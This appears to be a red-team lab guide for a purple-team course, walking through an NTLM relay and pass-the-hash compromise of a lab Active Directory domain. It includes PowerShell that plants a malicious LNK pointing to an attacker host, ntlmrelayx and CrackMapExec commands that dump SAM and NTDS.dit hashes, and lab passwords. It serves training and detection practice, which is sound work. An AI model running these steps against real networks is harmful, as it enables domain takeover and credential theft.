# APT0040.2-Red Pass-The-Hash - Crack Map Exec


![Lab Contents][LabContents]
<!-- Start Document Outline -->

* [Prepare Impacket to Accept and Pass The Hash](#prepare-impacket-to-accept-and-pass-the-hash)
	* [Console Session 1: Impacket](#console-session-1-impacket)
* [Generating a Malicious LINK File](#generating-a-malicious-link-file)
* [Hostile Network - File Browsing](#hostile-network---file-browsing)
* [Hostile Network - Impacket Toolkit](#hostile-network---impacket-toolkit)
	* [Exit the Tools](#exit-the-tools)
* [Pass The Hash to Domain PWDNAge (DCSync)](#pass-the-hash-to-domain-pwdnage-dcsync)
	* [Impacket Review](#impacket-review)
	* [Pass-The-Hash/Relay (WS01)](#pass-the-hashrelay-ws01)
	* [Pass-The-Hash/Relay (DC01)](#pass-the-hashrelay-dc01)
	* [NTDS.dit Hash-Grab via Pass-The-Hash](#ntdsdit-hash-grab-via-pass-the-hash)
* [Prepare Hashes For Password Cracking](#prepare-hashes-for-password-cracking)

<!-- End Document Outline -->
![][Div1]

![Lab Overview][LabOverview]

This lab will have the attacker leave a malicious LNK file on a domain share. A relay session will respond to this request and will be relayed. The successful relay attack will result in credential recovery that allows for lateral movement.

![][Div2]

![Lab Overview][LabObjectives]

•	Generate a malicious LNK file.
•	Execute an SMB relay attack, beginning to end. 
•	Relay the authentication responses to systems lacking SMB message integrity check enforcement (signing). 
•	Steal NTLM hashes for a local system administrator. 
•	Use CrackMapExec to pass-the-hash and move laterally. 
•	Sync the domain’s NTDS.dit hashes to the attacker’s system. 

![][Div2]

![Lab Methodology][LabMethodology]

Create a hostile network environment that will poison low level network queries and ultimately lead to compromise of an entire domain.  Use a malicious LNK file and Impacket tool-kit's ntlmrelayx to relay credential material to pivot within the domain.  Use CrackMapExec to escalate privileges with Pass the Hash and fully compromise the domain resulting in the disclosure of all domain account credential hashes.

![][Div1]

![Step One][AttackStepOne]
## Prepare Impacket to Accept and Pass The Hash
  In this section of the lab, start by creating an SSH session.
For reference, the connection information is presented below.  For more information, see Lab L0330.
```plaintext
SSH: itadmin@10.10.98.20
Password: APTClass!
```
![][Div2]

### Console Session 1: Impacket
For the relay portion of this attack, open a second SSH session to the Linux host at 10.10.98.20.  The commands below will then initiate a privileged session providing Impacket toolkit low level access to the networking stack on the Linux box. The use of a virtual environment (venv) will configure a python dependency stack that allows multiple python services to operate from the single Linux host. For example, impacket is known to work with python3.6, while the CrackMapExec binaries work with python3.8.

![Bash Input][BashInput]

```bash
cd /opt/impacket
source env/bin/activate
```

![Bash Output][BashOutput]

|  |
|----------|

Once the virtual environment is activated – denoted by (env) seen above highlighted, install the Impacket toolkit. 
HINT: There is a space and a dot in the command below. This configures the installer to look in the local directory (.) for installation instructions.

![Bash Input][BashInput]

```bash
python3.6 -m pip install .
```


After the dependencies and impacket toolkit has been installed continue with the execution of the toolkit below. 
Launch ntlmrelayx.py with the following commands to target the WS01 system. This tool could also be used to run commands on the remote system[s]. Further, ntlmrelayx could also target an LDAP server, where SMB signing is enforced by default. Relaying a privileged account successfully over LDAP will result in an additional user with sync privileges being added to the target domain.

![Bash Input][BashInput]
```bash
cd examples
sudo python3.6 ntlmrelayx.py -t 10.10.98.14 -smb2support
```
* NOTE: You will hit an error that is expected due to the use of port 443 for Kibana (Address already in use):

![Bash Output][BashOutput]

|  |
|----------|

|  |
|----------|

You have activated a python virtual environment, installed the impacket toolkit and launched ntlmrelayx.py.  Move to the next section of the lab where operation from the itadmin’s RDP session on the Domain Controller will be used to execute the malicious LNK from the \\dc01\labs\ fileshare and ultimately cause the compromise of the entire domain.


![][NextStep]

![][Div1]

![Step Two][StepTwo]
## Generating a Malicious LINK File
In the prior section of this lab, the Impacket toolkit was configured to exchange authentication challenges with SMB requests and relay them to WS01. 
To start this section of the lab, connect to the Domain Controller via remote desktop protocol.  If you already have a session open, continue to use that session.  Be sure to not close the PuTTY sessions initiated in this lab in Steps One and Two.
Connection information is provided as reference below. 

```plaintext
RDP: DC01.labs.local
Username: labs\itadmin
Password: APTClass!
```
Once there, open PowerShell and use the following code to write a malicious LNK file to the Labs share. 

![Powershell Input][PowerShellInput]

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("c:\Labs\Malicious.lnk")
$lnk.TargetPath = "\\10.10.98.20\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing the \\dc01\labs file share triggers SMB auth."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

|  |
|----------|

![][NextStep]

![][Div1]

![Step Three][AttackStepThree]
## Hostile Network - File Browsing
In this section, a privileged user is going to open a connection to the infected file share. The victim’s explorer will make an authentication request for the attacker’s listener. Once the authentication exchange occurs, credentials are relayed to the attacker’s target.
From DC01, open C:\Labs\ in file explorer.

|  |
|----------|

The malicious LNK file triggers, and NTLMRelayx takes over. 

![][NextStep]

![][Div1]

![Step Four][AttackStepFour]
## Hostile Network - Impacket Toolkit
In step one of this lab, an SSH session to 10.10.98.20 was created, and the impacket toolkit's ntlmrelayx tool was installed and launched. In step two, a malicious LNK file was created and left in a writable network share. A privileged user then browsed the file share, triggering silent authentication to the attacker’s system.   
Return now to Console Session 1 where ntlmrelayx was executed.

**Console Session 2 (NTLMRelay)** 
Returning to the Impacket toolkit NTLMRelay (ntlmrelayx) session (Console Session 1), you will note that Impacket had received an SMB connection request from the Domain Controller (10.10.98.10) with the LABS/ITADMIN session.  
Impacket toolkit captured the credential hash of the session and forwarded it to WS01.labs.local via SMB.  
Impacket then enabled the RemoteRegistry protocol on WS01 and enumeration of all local account hashes from the SAM database.  
Hashes were enumerated in the format uid:rid:lmhash:nthash

|  |
|----------|

Hash Format: The enumerated hashes are provided in the format uid:rid:lmhash:nthash.
* **uid**: User IDentifier for context of credentialhash.
* **rid**: Relative IDentifier for the specific UID. The RID is a portion of the SID that is used to identify a local or domain object.
* **lmhash**: LanManager Hash –Credential storage hash that is effectively broken due to its weak algorithm.  
* **nthash**: NTLM hash that can be used for PassTheHash attacks.

**Hash Enumeration Analysis**: A local administrator account, “LocalAdmin” has been identified and its credential hash recovered in the SAM hash enumeration. The administrator account is quickly identified by its RID 500 (highlighted in bold-red above). 

**LocalAdmin Hash**:  The LanMan hash (lmhash) and an NTLM hash (nthash) were recovered for the LocalAdmin account.  Note that part of the the LanMan hash enumerated is a well-known (highlighted in bold-green above).  What does this mean? 

**Note**: These hashes do not need to be cracked to be effectively used against the network. 
Troubleshooting: If you had difficulty with the ntlmrelayx and DNS, please referrer to the final section of this lab for troubleshooting potential DNS issues.   

### Exit the Tools

Impacket / NTLMRelayx:
```bash
Ctrl+c
deactivate
```

Continue onto the next step of this lab to systematically abuse captured NTLM hashes in an accelerated pace with CrackMapExec.

![][NextStep]

![][Div1]

![Step Five][AttackStepFive]
## Pass The Hash to Domain PWNAge (DCSync)
Like Attack Methodology Steps One and Two where multiple SSH sessions were initiated, continue the lab by creating a third SSH session.
* For reference, the connection information is presented below. For more information, see Lab L0330.
```plaintext
SSH: itadmin@10.10.98.20
Password: APTClass!
```
**Console Session 2 (CrackMapExec)**

Upon connecting to the SSH session on 10.10.98.20, continue by executing the following commands. The pre-packaged CrackMapExec binaries have made the tool very easy to execute, assuming python3.8 is installed and operational.  

![Bash Input][BashInput]

```bash
sudo -s
cd /opt/CrackMapExec
python3.8 cme
```

![Bash Output][BashOutput]

|  |
|----------|

Based on this screen, CrackMap is ready for action on the network. 

![][Div2]

### Impacket Review

The previous stages of this lab had us create an LNK and cause an authentication material exchange with a hostile host. Those materials were relayed to a domain workstation where the target’s SAM table was dumped. The credentials recovered during that relay attack can be reviewed in the /opt/impacket/examples/ directory. 

The command below will print the recovered hashes. 

![Bash Input][BashInput]
```bash
cat /opt/impacket/examples/10.*
```
![Bash Output][BashOutput]

|  |
|----------|

![][Div2]

### Pass-The-Hash/Relay (WS01)

The next command instructs CrackMapExec to authenticate against an SMB (file share) service on the WS01 system as LocalAdmin with the LM:NT hash recovered during the relay attack. The local-auth flag tells CrackMapExec to authenticate locally on the WS01.

![Bash Input][BashInput]
```bash
python3.8 cme smb 10.10.98.14 -u itadmin -H b81fc6f13bee9a3bf900955cb0384900 --local-auth
```
![Bash Output][BashOutput]

|  |
|----------|

**Attack Analysis**: The WS01\itadmin account credential hash was used to authenticate on WS01. Upon connecting via SMB it was determined that the itadmin account was a Local Administrator of WS01.  This is indicated in the CrackMapExec return by the (Pwn3d!) tag, highlighted in **Bold-Yellow** above.

![][Div2]


### Pass-The-Hash/Relay (DC01)
Next, try the itadmin hash against the domain controller’s IP address.

![Bash Input][BashInput]
```bash
python3.8 cme smb 10.10.98.10 -u itadmin -H b81fc6f13bee9a3bf900955cb0384900
```
![Bash Output][BashOutput]

|  |
|----------|

**Attack Analysis**:  The ITAdmin account credential hash was used to authenticate on DC01. Upon connecting via SMB it was determined that the ITAdmin account had administrative privilege on DC01 (consequently, a Domain Admin or similar context).  This is indicated in the CrackMapExec return by the (Pwn3d!) tag, highlighted in **Bold-Yellow** above.

![][Div2]


### NTDS.dit Hash-Grab via Pass-The-Hash
Having confirmed compromise of a privileged account on the Domain Controller (LABS\ITAdmin), request a sync of the domain’s NTDS.dit entries using the ITAdmin account credential hash. This will enumerate all user credential hashes for the Active Directory Domain stored on the Domain Controller.  

Run the following command to write the output to a file.  The included head command will display the top four lines of the output.

![Bash Input][BashInput]
```bash
python3.8 cme smb 10.10.98.10 -u itadmin -H b81fc6f13bee9a3bf900955cb0384900 --ntds > domain-NTDS
head domain-NTDS -n 4
```
![Bash Output][BashOutput]

|  |
|----------|

**Attack Analysis**: CrackMapExec was used to identify a Local Administrator on WS01 (itadmin) that allowed the enumeration of hashes from WS01.  The enumeration included a credential hash for user LABS\itadmin.  CrackMapExec was then used to confirm ITAdmin was a privileged user of DC01 and the Active Directory Domain.  The LABS/ITAdmin credential hash was then used on DC01 to download credential hashes for all user accounts on the Active Directory domain with CrackMapExec’s ntds module.

Continue to the next step of the lab to prepare the credential hashes for password cracking.

![][NextStep]

![][Div1]

![Step Five][AttackStepSix]
## Prepare Hashes For Password Cracking
In the previous lab section, a third SSH Console Session was initiated.  This portion of the lab can utilize that same session.
For reference, the connection information is presented below.  For more information, see Lab L0330.

```plaintext
SSH: aptclass@10.10.98.20
Password: APTClass!
```

**Console Session 2 (CrackMapExec)**

If continuing from the previous lab section, use the existing Console Session 2.  
The previous lab section enumerated an Active Directory’s NTDS database which disclosed domain user account credential hashes.  To inspect the credential hashes and prepare them for password cracking, some text manipulation commands are necessary.  Below is a pipe sequence that reads the tool output and manipulates the contents. Before executing this command, read the explanation of the pipe sequence. 

![Bash Input][BashInput]
```bash
cat domain-NTDS | grep aad3b4 | grep -Fv '+' | grep -Fv '$' | tr -s " " | cut -d" " -f5 > cme-domain-Hashes
```

An explanation of the pipe sequence is provided below:
```plaintext
cat domain-NTDS        # Read the tool output file, domain-NTDS file.            ##INPUT FILE ##
grep aad3b4            # Return only rows containing aad3b4 because this helps trim the garbage from the tool’s output – only rows with hashes are returned. 
grep -Fv '+'           # Remove from return some unnecessary tool output 
grep -Fv ‘$’           # Remove from return computer/hidden accounts *$
tr -s “ ”              # Trim whitespace within output
cut -d “ ” -f 5        # Cut the output as a space delimited table and select only field (column) 5 (the username and hash field).
> cme-domain-Hashes    # Write the results to file cme-domain-Hashes.            ##OUTPUT FILE##
```
After reviewing the pipe sequence and command explanation, execute the commands below.  Note that the head command will list the top three lines of the cme-domain-Hashes file.  The wc command will count the lines within the file.

![Bash Input][BashInput]
```bash
cat domain-NTDS | grep aad3b4 | grep -Fv '+' | grep -Fv '$' | tr -s " " | cut -d" " -f5 > cme-domain-Hashes
head cme-domain-Hashes -n 3
wc -l cme-domain-Hashes
```

![Bash Output][BashOutput]

|  |
|----------|

The cme-domain-Hashes file contains 214 hashes that have been prepared for cracking.  This is indicated by the result of the wc -l cme-domain-Hashes output above, highlighted in **Bold-Yellow** above.

If the output of this command matches closely to the above, move to the Hunt Section to see if the pass-the-hash attacks can be discovered in Elastic. 

![][Div1]

![Lab Complete][LabComplete]


  [LabContents]:https://img.shields.io/badge/Lab-Contents-purple.svg?style=for-the-badge
  [LabAddendum]:https://img.shields.io/badge/Lab-Addendum-magenta.svg?style=for-the-badge
  [LabOverview]:https://img.shields.io/badge/Lab-Overview-darkblue.svg?style=for-the-badge
  [LabObjectives]:https://img.shields.io/badge/Lab-Objectives-darkblue.svg?style=for-the-badge
  [LabMethodology]:https://img.shields.io/badge/Lab-Methodology-darkblue.svg?style=for-the-badge
  [LabComplete]:https://img.shields.io/badge/Lab-Complete-red.svg?style=for-the-badge
  [NextStep]:https://img.shields.io/badge/Step%20Complete-Onward!-darkgreen.svg?style=flat-sware
  [PowershellInput]:https://img.shields.io/badge/Powershell-Input-green.svg?style=flat-sware
  [BashInput]:https://img.shields.io/badge/Bash-Input-green.svg?style=flat-sware
  [BashOutput]:https://img.shields.io/badge/Bash-Output-orange.svg?style=flat-sware
  [STInput]:https://img.shields.io/badge/SilentTrinity-Input-green.svg?style=flat-sware
  [STOutput]:https://img.shields.io/badge/SilentTrinity-Output-orange.svg?style=flat-sware
  [HuntIndex]:https://img.shields.io/badge/Hunt-Index%20Term-darkgreen.svg?style=flat-sware
  [HuntSearchTerm]:https://img.shields.io/badge/Hunt-Search%20Term-blue.svg?style=flat-sware
  [PowershellOutput]:https://img.shields.io/badge/Powershell-Output-orange.svg?style=flat-sware
  [GuiNav]:https://img.shields.io/badge/GUI-Navigation-orange.svg?style=flat-sware
  [StepOne]:https://img.shields.io/badge/Step-One-blue.svg?style=for-the-badge
  [StepTwo]:https://img.shields.io/badge/Step-Two-blue.svg?style=for-the-badge
  [StepThree]:https://img.shields.io/badge/Step-Three-blue.svg?style=for-the-badge
  [StepFour]:https://img.shields.io/badge/Step-Four-blue.svg?style=for-the-badge
  [StepFive]:https://img.shields.io/badge/Step-Five-blue.svg?style=for-the-badge
  [StepSix]:https://img.shields.io/badge/Step-Six-blue.svg?style=for-the-badge
  [AttackStepOne]:https://img.shields.io/badge/Attack-Step%20One-red.svg?style=for-the-badge 
  [AttackStepTwo]:https://img.shields.io/badge/Attack-Step%20Two-red.svg?style=for-the-badge
  [AttackStepThree]:https://img.shields.io/badge/Attack-Step%20Three-red.svg?style=for-the-badge 
  [AttackStepFour]:https://img.shields.io/badge/Attack-Step%20Four-red.svg?style=for-the-badge
  [AttackStepFive]:https://img.shields.io/badge/Attack-Step%20Five-red.svg?style=for-the-badge
  [AttackStepSix]:https://img.shields.io/badge/Attack-Step%20Six-red.svg?style=for-the-badge
  [HuntStepOne]:https://img.shields.io/badge/Hunt-Step%20One-blue.svg?style=for-the-badge
  [HuntStepTwo]:https://img.shields.io/badge/Hunt-Step%20Two-blue.svg?style=for-the-badge
  [HuntStepThree]:https://img.shields.io/badge/Hunt-Step%20Three-blue.svg?style=for-the-badge
  [HuntStepFour]:https://img.shields.io/badge/Hunt-Step%20Four-blue.svg?style=for-the-badge
  [APTStepOne]:https://img.shields.io/badge/APT-Step%20One-purple.svg?style=for-the-badge
  [PurpleTeam]:https://img.shields.io/badge/Team-Purple-purple.svg?style=for-the-badge
  [L0200]: ../L0200/
  [L0250]: ../L0250/
  [L0310]: ../L0310/
  [L0311]: ../L0311/
  [L0320]: ../L0320/
  [L0330]: ../L0330/
  [L0340]: ../L0340/
  [L0350]: ../L0350/
  [L1120]: ../L1120/
  [L1130]: ../L1130/
  [L1140]: ../L1140/
  [Div2]:../../docs/images/divider%202.png
  [Div1]:../../docs/images/divider%201.png
